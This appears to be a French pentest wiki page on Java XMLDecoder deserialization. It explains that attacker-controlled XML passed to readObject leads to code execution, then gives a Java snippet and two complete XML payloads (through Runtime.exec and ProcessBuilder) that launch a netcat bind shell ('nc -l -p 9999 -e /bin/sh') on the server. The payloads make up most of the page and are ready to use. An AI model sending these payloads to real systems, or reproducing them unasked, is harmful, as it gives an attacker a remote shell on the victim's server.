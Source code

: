 # XMLDecoder

La faille exploite  le fait que XMLDecoder unserialize de données arbitraires.

XMLDecoder est une classe Java qui cré des object basé sur un message XML. SI un utilisateur peut lancer une exécution de la methode \*readObject\* avec du code arbitraire, il pourra executer de code sur le serveur.

### Exploitation

le but et d'avoir un remote shell sur le serveur. Notre Code en java devrait ressembler à ca :&#x20;

```java
Runtime run = Runtime.getRuntime();
String[] commands = new String[] { "/usr/bin/nc", "-l","-p", "9999", "-e", "/bin/sh" };
run.exec(commands);
```

il faut transformer ce code au format XML pour mener a une exécution coté serveur après être passé par la méthode readObject.&#x20;

Avec un object Runtime  :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<java version="1.7.0_21" class="java.beans.XMLDecoder">
	 <object class="java.lang.Runtime" method="getRuntime">
	      <void method="exec">
	      <array class="java.lang.String" length="6">
	          <void index="0">
	              <string>/usr/bin/nc</string>
	          </void>
	          <void index="1">
	              <string>-l</string>
	          </void>
	          <void index="2">
	              <string>-p</string>
	          </void>
	          <void index="3">
	              <string>9999</string>
	          </void>
	          <void index="4">
	              <string>-e</string>
	          </void>
	          <void index="5">
	              <string>/bin/sh</string>
	          </void>
	      </array>
	      </void>
	 </object>
	</java>
```
{% endcode %}

Avec un Process Builder  :&#x20;

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<java version="1.7.0_21" class="java.beans.XMLDecoder">
	  <void class="java.lang.ProcessBuilder">
	    <array class="java.lang.String" length="6">
	      <void index="0">
	        <string>/usr/bin/nc</string>
	      </void>
	      <void index="1">
	         <string>-l</string>
	      </void>
	      <void index="2">
	         <string>-p</string>
	      </void>
	      <void index="3">
	         <string>9999</string>
	      </void>
	      <void index="4">
	         <string>-e</string>
	      </void>
	      <void index="5">
	         <string>/bin/sh</string>
	      </void>
	    </array>
	    <void method="start" id="process">
	    </void>
	  </void>
	</java>
```

